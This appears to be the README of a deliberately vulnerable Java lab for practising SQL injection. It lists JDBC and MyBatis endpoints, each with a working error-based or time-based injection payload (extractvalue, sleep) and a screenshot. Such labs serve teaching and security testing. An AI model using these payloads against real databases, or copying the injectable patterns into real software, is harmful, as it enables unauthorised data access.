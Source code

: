 # Java-SQL注入靶场

# 部署

修改`src/main/resources/application-dev.yml`中的数据库信息

![image-20220912214641993](images/image-20220912214641993.png)

将表导入数据库`src/main/resources/user.sql`

![image-20220912214725961](images/image-20220912214725961.png)

## 一、JDBC

**src/main/java/com/uzju/dongtai_sql_inject_lab/controller/JDBCInject.java**

### 1、+号拼接

#### 1.1、PAYLOAD

```bash
/jdbc/statement_and_inject?id=1'+and+extractvalue(1,concat(0x7e,user()))--+
```

![image-20220911211335064](images/image-20220911211335064.png) 

#### 1.2、实现代码

![image-20220911211433982](images/image-20220911211433982.png)

### 2、prepareStatement注入+号拼接

#### 2.1、PAYLOAD

```bash
/jdbc/preparestatement_and_inject?id=1'+and+extractvalue(1,concat(0x7e,user()))--+
```

![image-20220911211718206](images/image-20220911211718206.png)

#### 2.2、实现代码

![image-20220911213628419](images/image-20220911213628419.png)

### 3、prepareStatement Orderby注入

#### 3.1、PAYLOAD

```bash
/jdbc/preparestatement_orderby_inject?id=1&orderby=id+and+extractvalue(1,concat(0x7e,user()))
```

![image-20220911213751260](images/image-20220911213751260.png)

#### 3.2、代码实现

![image-20220911213808120](images/image-20220911213808120.png)

### 4、prepareStatement like注入

#### 4.1、PAYLOAD

```bash
/jdbc/preparestatement_like_inject?id=1%25'+and+extractvalue(1,concat(0x7e,user()))--+
```

![image-20220911213920154](images/image-20220911213920154.png)

#### 4.2、代码实现

![image-20220911213958343](images/image-20220911213958343.png)

### 5、prepareStatement in注入

#### 5.1、PAYLOAD

```bash
/jdbc/preparestatement_in_inject?id=1)+and+extractvalue(1,concat(0x7e,user()))--+
```

![image-20220911214118938](images/image-20220911214118938.png)

#### 5.2、代码实现

![image-20220911214054339](images/image-20220911214054339.png)



## 二、Mybatis

### 1、mybatis ${}注入

#### 1.1、PAYLOAD

```bash
/mybatis/getUser_inject?id=1+and+sleep(3)
```

![image-20220912214228801](images/image-20220912214228801.png)

### 2、mybatis orderby注入

#### 2.1、PAYLOAD

```bash
/mybatis/getUser_orderby_inject?id=1&getparse=id+and+if(1=1,1,(SELECT(1)FROM(SELECT(SLEEP(2)))test))
```

![image-20220912214045899](images/image-20220912214045899.png)

### 3、mybatis like注入

#### 3.1、PAYLOAD

```bash
/mybatis/getUser_like_inject?id=1&username=admin'+and+sleep(3)--+
```

![image-20220912214345378](images/image-20220912214345378.png)

### 4、mybatis in注入

#### 4.1、PAYLOAD

```bash
/mybatis/getUser_in_inject?id=1)+and+sleep(3)--+
```

![image-20220912214436618](images/image-20220912214436618.png)
